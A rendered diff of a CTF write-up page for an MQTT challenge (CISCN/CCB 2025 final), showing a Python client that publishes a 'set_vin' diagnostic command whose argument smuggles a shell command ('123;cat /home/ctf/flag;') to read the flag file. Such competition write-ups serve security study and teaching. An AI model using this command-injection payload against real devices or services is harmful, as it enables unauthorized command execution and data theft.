

Before and after one commit to RocketMaDev/CTFWriteup, a Markdown page: ciscnxccb2025/final.mqtt.md, the part around the change. Drawn GitHub-style; pictures changed too: ciscnxccb2025/assets/mqtt_flag.png (added); blank space fills up the shorter version.

````diff
--- a/ciscnxccb2025/final.mqtt.md
+++ b/ciscnxccb2025/final.mqtt.md
@@ -68,14 +68,14 @@ client.connect(broker, 36985, 60)
 cmd = {
     'auth': auth,
     'cmd': 'set_vin',
-    'arg': '123456789',
+    'arg': '1234567890',
 }
 client.loop_start()
+client.subscribe('diag/resp')
 client.publish('diag', dumps(cmd))
-time.sleep(0.5)
-cmd['arg'] = ';cat /home/ctf/flag#'
+time.sleep(1)
+cmd['arg'] = '123;cat /home/ctf/flag;'
 client.publish('diag', dumps(cmd))
-client.subscribe('diag/resp')
 try:
     while True:
         time.sleep(0.5)
@@ -84,3 +84,5 @@ except KeyboardInterrupt:
 client.loop_stop()
 client.disconnect()
 ```
+
+![flag](assets/mqtt_flag.png)
````
Also changed, not shown: ciscnxccb2025/README.md (+7 -1 lines).
